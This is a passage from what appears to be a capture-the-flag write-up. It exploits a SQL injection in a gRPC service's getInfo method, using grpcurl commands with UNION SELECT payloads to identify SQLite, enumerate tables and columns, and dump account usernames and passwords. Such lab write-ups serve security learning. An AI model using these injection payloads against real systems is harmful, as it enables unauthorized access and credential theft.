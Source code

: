 ```console
Sent 1 request and received 1 response
```

But the `getInfo` method throws an error:

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"564"}' ${t}:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable
^ rc=66
```

## Exploit

The `getInfo` method is vulnerable to a SQLi via the `id` parameter. I'm able to confirm the database is `sqlite`:

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select sqlite_version()--"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "3.31.1"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select password from accounts;"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "HereIs[...]"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select name from sqlite_master where type=\"table\";"}' ${t}:50051 SimpleApp.getInfo{
  "message": "accounts"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select group_concat(name, \",\") from pragma_table_info(\"accounts\");"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "username,password"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select group_concat(username || password) from accounts;"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "adminadmin,sauHereIs[...]"
}
```
